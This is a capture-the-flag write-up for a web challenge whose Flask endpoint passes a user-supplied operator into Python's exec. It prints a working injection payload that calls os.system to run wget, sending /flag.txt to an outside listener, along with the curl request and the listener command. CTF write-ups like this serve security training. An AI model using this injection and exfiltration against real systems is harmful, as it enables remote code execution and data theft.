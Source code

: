 # [Web] Evaluation deck

This challenge presents a web application that presents an API to perform an operation. It takes 2 numbers and 1 operator, and evaluates the corresponding code

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')

    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

We can use the following payload, replacing the operator by a system call

```json
{"current_health":"0", "attack_power":"0", "operator": ";__import__('os').system('wget 1.2.3.4:4444?aaa=`cat /flag.txt`');"}
```

And use it

```bash
curl -d @payload.txt  http://157.245.42.104:32089/api/get_health
```

Using a python listener, the flag is received

```bash
python -m http.server 4444
```
